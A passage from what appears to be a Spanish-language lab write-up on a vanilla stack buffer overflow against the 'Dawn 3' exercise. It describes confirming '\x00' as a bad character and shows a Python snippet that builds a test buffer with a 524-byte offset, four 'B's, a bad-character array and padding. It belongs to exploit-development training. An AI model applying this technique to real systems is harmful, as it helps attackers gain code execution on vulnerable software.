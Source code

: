 <p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-07-25-Dawn-3-Vanilla-Buffer-Overflow/Pasted%20image%2020210723181811.png" height="500" width="825" /></p>

Al enviarlo se observa que después de las 'B's se modifican los valores de los badchars que se han enviado, por lo que se confirma que '\x00' es un badchar. Se edita el script y se elimina del array de badchars el '\x00'. Después de esto se vuelve a enviar el payload.

```python
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = "A"*524  + "B" * 4 + badchars + "C" * (888 - 524 - 4 - len(badchars))
```
